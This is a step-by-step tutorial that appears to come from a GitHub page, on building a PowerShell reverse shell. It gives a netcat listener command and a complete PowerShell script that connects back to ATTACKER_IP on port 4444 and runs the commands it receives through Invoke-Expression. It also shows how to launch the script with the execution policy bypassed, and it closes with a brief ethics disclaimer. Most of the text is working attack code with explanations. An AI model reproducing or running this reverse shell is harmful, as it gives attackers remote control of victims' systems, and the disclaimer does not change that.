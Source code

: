 #Plan

### Components of a Reverse Shell

1. **Listener**: The attacking machine runs a service that listens for incoming connections.
2. **Reverse Shell Script**: The target machine runs a script that connects back to the listener and provides a shell interface.

### Step-by-Step Explanation of a PowerShell Reverse Shell Script

#### Step 1: Set Up a Listener on the Attacker Machine

On your attacking machine, you need to set up a listener that will wait for incoming connections. You can use `netcat` (nc) for this purpose:

```bash
nc -lvnp 4444
```

- `-l`: Listen mode.
- `-v`: Verbose mode.
- `-n`: No DNS resolution.
- `-p`: Local port.

This command tells `netcat` to listen on port 4444 for incoming connections.

#### Step 2: Create the Reverse Shell Script on the Target Machine

A simple PowerShell reverse shell script can be written as follows:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$writer.AutoFlush = $true
$buffer = New-Object System.Byte[] 1024
$encoding = New-Object System.Text.AsciiEncoding

while ($true) {
    $writer.Write("PS " + (Get-Location).Path + "> ")
    $read = $stream.Read($buffer, 0, $buffer.Length)
    $cmd = ($encoding.GetString($buffer, 0, $read)).Trim()
    try {
        $result = (Invoke-Expression $cmd 2>&1 | Out-String )
    }
    catch {
        $result  = $_.Exception.Message
    }
    $writer.WriteLine($result)
    $writer.Flush()
}
$client.Close()
```

### Explanation of the PowerShell Script

1. **Establishing the Connection:**
    ```powershell
    $client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", 4444)
    $stream = $client.GetStream()
    ```
    - `$client`: Creates a new TCP client object that connects to the attacker's IP on port 4444.
    - `$stream`: Retrieves the network stream used to send and receive data.

2. **Stream Writers and Encoders:**
    ```powershell
    $writer = New-Object System.IO.StreamWriter($stream)
    $writer.AutoFlush = $true
    $buffer = New-Object System.Byte[] 1024
    $encoding = New-Object System.Text.AsciiEncoding
    ```
    - `$writer`: A stream writer to send data to the attacker.
    - `$writer.AutoFlush = $true`: Ensures that the buffer is flushed automatically.
    - `$buffer`: A byte array buffer to read incoming data.
    - `$encoding`: ASCII encoding to convert bytes to strings and vice versa.

3. **Main Loop:**
    ```powershell
    while ($true) {
        $writer.Write("PS " + (Get-Location).Path + "> ")
        $read = $stream.Read($buffer, 0, $buffer.Length)
        $cmd = ($encoding.GetString($buffer, 0, $read)).Trim()
        try {
            $result = (Invoke-Expression $cmd 2>&1 | Out-String )
        }
        catch {
            $result  = $_.Exception.Message
        }
        $writer.WriteLine($result)
        $writer.Flush()
    }
    ```
    - `while ($true)`: An infinite loop to keep the connection open.
    - `$writer.Write("PS " + (Get-Location).Path + "> ")`: Sends the current PowerShell prompt to the attacker.
    - `$read = $stream.Read($buffer, 0, $buffer.Length)`: Reads incoming data from the stream into the buffer.
    - `$cmd = ($encoding.GetString($buffer, 0, $read)).Trim()`: Converts the buffer bytes to a string and trims whitespace.
    - `Invoke-Expression $cmd`: Executes the received command.
    - `2>&1 | Out-String`: Captures any errors and converts the output to a string.
    - `$writer.WriteLine($result)`: Sends the result back to the attacker.
    - `$writer.Flush()`: Ensures the output is sent immediately.

4. **Closing the Connection:**
    ```powershell
    $client.Close()
    ```
    - This line closes the TCP connection when the script ends (though in this infinite loop, it never reaches this point unless the script is interrupted).

### Putting It All Together

1. Start the listener on your attacker machine:
    ```bash
    nc -lvnp 4444
    ```

2. Run the PowerShell script on the target machine:
    - Save the script to a `.ps1` file, for example, `reverse_shell.ps1`.
    - Execute the script using PowerShell:
      ```powershell
      powershell -ExecutionPolicy Bypass -File reverse_shell.ps1
      ```

### Security and Ethical Considerations

- **Ethical Use**: Only use reverse shells in environments where you have explicit permission to do so, such as in penetration testing with prior authorization.
- **Security**: Reverse shells can be a significant security risk if misused. Ensure that you are following best practices for securing your systems and networks.
- **Legal**: Unauthorized access to computer systems is illegal and punishable by law. Always ensure that you have legal authorization before performing any activities involving reverse shells or other hacking tools.

By understanding the components and how they work, you can modify and create your own reverse shell scripts for legitimate and educational purposes.